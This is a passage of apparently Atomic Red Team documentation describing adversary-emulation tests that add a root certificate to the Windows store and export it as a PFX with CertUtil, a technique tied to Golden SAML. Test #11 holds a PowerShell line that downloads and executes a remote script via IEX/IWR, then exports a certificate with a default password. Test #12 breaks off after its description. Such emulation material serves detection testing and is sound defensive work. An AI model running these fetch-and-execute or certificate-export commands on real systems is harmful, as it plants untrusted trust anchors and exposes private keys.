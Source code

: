 


<br/>
<br/>

## Atomic Test #11 - CertUtil ExportPFX
The following Atomic test simulates adding a generic non-malicious certificate to the Root certificate store. This behavior generates a registry modification that adds the cloned root CA certificate in the keys outlined in the blog. In addition, this Atomic utilizes CertUtil to export the PFX (ExportPFX), similar to what was seen in the Golden SAML attack.
Keys will look like - \SystemCertificates\CA\Certificates or \SystemCertificates\Root\Certificates
Reference: https://posts.specterops.io/code-signing-certificate-cloning-attacks-and-defenses-6f98657fc6ec
Reference: https://www.splunk.com/en_us/blog/security/a-golden-saml-journey-solarwinds-continued.html

**Supported Platforms:** Windows


**auto_generated_guid:** 336b25bf-4514-4684-8924-474974f28137





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output | file path to export to | path | c:&#92;temp&#92;atomic.pfx|
| password | password for cert | string | password|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
IEX (IWR 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1553.004/src/RemoteCertTrust.ps1' -UseBasicParsing) 
certutil.exe -p #{password} -exportPFX Root 1F3D38F280635F275BE92B87CF83E40E40458400 #{output}
```

#### Cleanup Commands:
```powershell
Get-ChildItem -Path Cert:\ -Recurse | Where-Object { $_.Thumbprint -eq '1F3D38F280635F275BE92B87CF83E40E40458400' } | remove-item
```





<br/>
<br/>

## Atomic Test #12 - Export Root Certificate with Export-PFXCertificate
Creates a Root certificate and exports it with Export-PFXCertificate PowerShell Cmdlet.
Upon a successful attempt, this will write a pfx to disk and utilize the Cmdlet Export-PFXCertificate.
